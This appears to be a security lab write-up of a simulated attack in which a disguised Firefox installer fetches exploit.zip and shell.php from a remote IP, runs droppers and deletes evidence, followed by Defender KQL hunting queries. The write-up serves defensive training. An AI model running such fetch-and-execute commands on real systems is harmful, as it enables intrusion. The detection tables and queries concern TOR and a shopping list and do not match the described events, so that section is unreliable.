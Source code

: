 # Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Downloaded a modified Firefox installer disguised as a legitimate file:
Firefox Installer.exe saved under C:\Users\employee0\Downloads\.

2. Executed the installer silently through setup-stub.exe with custom arguments:

setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/exploit.zip


3. Executed again using a different payload hosted on a remote web server:

setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[YOUR-LAB-IP]/admin/shell.php


4. Multiple dropper executions occurred via download.exe in quick succession, indicating staged infection:

"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\config.ini


5. Firefox.exe was later deleted from the installation directory to remove evidence:

ActionType: FileDeleted
FileName: firefox.exe
FolderPath: C:\Program Files\Mozilla Firefox\
InitiatingProcessCommandLine: setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php


6. These actions created multiple temporary and malicious profile directories (Temp\MalProfile) to host payloads and connect to remote command servers.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detecting TOR download and installation, as well as the shopping list creation and deletion. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of TOR as well as the TOR browser and service launching.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect TOR network activity, specifically tor.exe and firefox.exe making connections over ports to be used by TOR (9001, 9030, 9040, 9050, 9051, 9150).|

---

## Related Queries:
```kql
// Installer name == tor-browser-windows-x86_64-portable-(version).exe
// Detect the installer being downloaded
DeviceFileEvents
| where FileName startswith "tor"

// TOR Browser being silently installed
// Take note of two spaces before the /S (I don't know why)
DeviceProcessEvents
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.0.1.exe  /S"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// TOR Browser or service was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("tor.exe", "firefox.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// TOR Browser or service was launched
DeviceProcessEvents
| where ProcessCommandLine has_any("tor.exe","firefox.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// TOR Browser or service is being used and is actively creating network connections
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("tor.exe", "firefox.exe")
| where RemotePort in (9001, 9030, 9040, 9050, 9051, 9150)
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// User shopping list was created and, changed, or deleted
DeviceFileEvents
| where FileName contains "shopping-list.txt"
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 06, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 06, 2025`  | `Antonio Francisco`   
